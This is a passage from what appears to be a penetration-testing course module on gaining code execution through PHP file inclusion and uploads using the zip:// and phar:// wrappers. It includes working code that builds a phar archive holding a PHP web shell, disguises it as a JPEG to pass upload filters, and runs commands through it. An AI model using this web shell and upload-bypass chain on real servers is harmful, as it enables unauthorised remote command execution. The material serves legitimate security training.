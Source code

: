 **Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as ( `zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:
![Shipping containers and cranes at a port with user data and a PHP notice about an undefined variable.](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

As we can see, this method also works in executing commands through zipped PHP scripts.

**Note:** We added the uploads directory ( `./profile_images/`) before the file name, as the vulnerable page ( `index.php`) is in the main directory.

* * *

## Phar Upload

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:

```shell
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

```

Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with ( `&cmd=id`), as follows:
![Shipping containers and cranes at a port with user data information displayed.](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, the `id` command was successfully executed. Both the `zip` and `phar` wrapper methods should be considered as alternative methods in case the first method did not work, as the first method we discussed is the most reliable among the three.

**Note:** There is another (obsolete) LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP configurations and the `phpinfo()` page is somehow exposed to us. However, this attack is not very common, as it has very specific requirements for it to work (LFI + uploads enabled + old PHP + exposed phpinfo()). If you are interested in knowing more about it, you can refer to [This Link](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).
